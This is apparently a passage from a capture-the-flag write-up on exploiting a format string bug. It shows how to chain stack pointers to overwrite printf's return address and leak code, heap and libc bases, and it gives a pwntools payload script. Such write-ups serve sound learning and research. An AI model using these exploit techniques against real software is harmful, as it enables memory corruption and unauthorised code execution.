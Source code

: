 Now, the hard part begins, be ready.

With this stack dump, we can start finding pointers of form `**`, which points on a stack address. Thus we can overwrite the lower part of these pointers to craft others valid stack pointers to overwrite arbitrary data on the stack (here we want to overwrite the stored return address of `printf`) .

For example, we can find some pointers that fulfill these conditions.

- [Offset **15** in the format string] `0x7ffcef060f38`=> `0x00007ffcef061038` (Offset **47** in the format string) 
- [Offset **18** in the format string] `0x7ffcef060f50` => `0x00007ffcef061038` (Offset **47** in the format string) 
- [Offset **33** in the format string] `0x7ffcef060fc8` => `0x00007ffcef061048 `(Offset **49** in the format string) 
- [Offset **35** in the format string] `0x7ffcef060fd8` => `0x00007ffcef061048 `(Offset **49** in the format string) 

Our target is the `printf` return address (`0x7ffcef060ee8`). We can modify the lower part of the pointer pointed by  `0x7ffcef060f38`, to make it correspond with the `printf` return address:

```
0x7ffcef060f38 => 0x00007ffcef061038
Write 0x0ee8 at offset 15 => 0x7ffcef060ee8 => return address
```

We can then overwrite the LSB of the newly crafted pointer at offset **47**, to overwrite the `printf` return address:

```
0x7ffcef060ee8:	0x000056082cf7f25b
Write 0x30 at offset 47 => 0x7ffcef060ee8:	0x000056082cf7f230
```

This allows us to get back in the `main` function after returning of the `printf` function!

We can then take advantage of the return to leak some useful addresses. By analyzing the stack dump we can find some code pointers, along with libc and stack ones. We append some `%X$p` formatters at the end of our format string to leak them.

Here is the code in my exploit that implements that:

```python
PIVOT_OFFSET = 15
RET_ADDR_OFFSET = 47

# Arbitrary partial address, we'll need a 12-bit ASLR bruteforce 
# once running the exploit remotely 
ret_addr_partial = 0x1f38 

target = (0x30 - (ret_addr_partial & 0xff)) & 0xff

log.success('target is @ %s' % hex(target))

# Overwrite partial stack pointer
fmt = '%c'*(PIVOT_OFFSET - 2) + f'%{ret_addr_partial - (PIVOT_OFFSET - 2)}c' + '%hn' 
fmt += f'%{target}c%{RET_ADDR_OFFSET}$hhn' # place 0x30 to the printf return address
fmt += '____' + '-'.join(['%12$p', '%7$p', '%11$p', '%15$p'])

r.sendline(fmt)

r.recvuntil('____')
leaks = r.recv().strip().split(b'-')

code_base = int(leaks[0], 16) - 0x40
heap_base = int(leaks[1], 16) - 0x2a0
libc_base = int(leaks[2], 16) - 0x2dfd0
env_base = int(leaks[3], 16) + 0x10

log.success('code base is @ %s' % hex(code_base))
```
